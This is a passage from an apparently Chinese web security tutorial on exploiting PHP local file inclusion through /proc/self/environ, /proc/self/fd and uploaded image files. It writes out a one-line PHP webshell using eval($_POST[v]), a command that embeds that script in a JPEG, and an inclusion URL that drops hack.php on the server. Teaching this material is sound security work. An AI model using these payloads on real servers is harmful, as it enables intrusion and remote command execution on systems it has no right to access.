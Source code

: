 `proc/self/environ`中会保存user-agent头。如果在user-agent中插入php代码，则php代码会被写入到environ中。之后再包含它，即可。

例如：我们现在访问一个网站，使用burpsuite抓包，将恶意代码插入到user-agent中：

[![](https://p4.ssl.qhimg.com/t0128edf860508eb9c3.png)](https://p4.ssl.qhimg.com/t0128edf860508eb9c3.png)

然后利用文件包含漏洞去包含`proc/self/environ`，成功执行php代码。

[![](https://p0.ssl.qhimg.com/t0175b4c8fb7a1ff6d2.png)](https://p0.ssl.qhimg.com/t0175b4c8fb7a1ff6d2.png)

<a class="reference-link" name="%E6%B3%A8%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%92%8C%E5%86%99%E5%85%A5%E6%9C%A8%E9%A9%AC"></a>**注意命令执行和写入木马**

都是可以的，只要将上面的`&lt;?php phpinfo();?&gt;`替换成所对应的php代码，然后进行包含文件即可。

### <a class="reference-link" name="%E5%8C%85%E5%90%ABfd(%E6%96%87%E4%BB%B6%E6%8F%8F%E8%BF%B0%E7%AC%A6)"></a>包含fd(文件描述符)

文件描述符：File descriptor,简称fd，当应用程序请求内核打开/新建一个文件时，内核会返回一个文件描述符用于对应这个打开/新建的文件，其fd本质上就是一个非负整数。实际上，它是一个索引值，指向内核为每一个进程所维护的该进程打开文件的记录表。当程序打开一个现有文件或者创建一个新文件时，内核向进程返回一个文件描述符。

默认位置：`/proc/self/fd/`。在Linux系统下。Windows系统没有。

和`包含environ`类似。

**<a class="reference-link" name="%E6%B3%A8%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%92%8C%E5%86%99%E5%85%A5%E6%9C%A8%E9%A9%AC"></a>注意命令执行和写入木马**

都是可以的，同`包含environ`。

### <a class="reference-link" name="%E5%8C%85%E5%90%AB%E4%B8%8A%E4%BC%A0%E6%96%87%E4%BB%B6"></a>包含上传文件

很多网站通常会提供文件上传功能，比如：上传头像、文档等，这时就可以采取上传一句话图片木马的方式进行包含。

利用条件：

千变万化，不过至少得知道上传的文件在哪，叫啥名字。

姿势：

先得制作图片马，有两种方式：

第一种是在cmd命令行下，比如图片1.jpg和包含php代码`fputs(fopen('hack.php','w'),'&lt;?php [@eval](https://github.com/eval)($_POST[v])?&gt;');?&gt;`的2.php，它们得在同一目录，然后cmd在该目录下执行：`copy 1.jpg/b+2.php 3.jpg`，将图片1.jpg和包含php代码的2.php文件合并生成图片马3.jpg

假设已经上传一句话图片木马到服务器，路径为`/upload/202107.jpg`

然后访问URL：`http://x.x.x.x/index.php?page=./upload/202107.jpg`，包含这张图片，将会在`index.php`所在的目录下生成`hack.php`，然后用shell管理工具就能成功连接。

那么同理，命令执行也是可行的。不过都getshell了，其中也能命令执行。

### <a class="reference-link" name="%E5%8C%85%E5%90%AB%E4%B8%B4%E6%97%B6%E6%96%87%E4%BB%B6"></a>包含临时文件
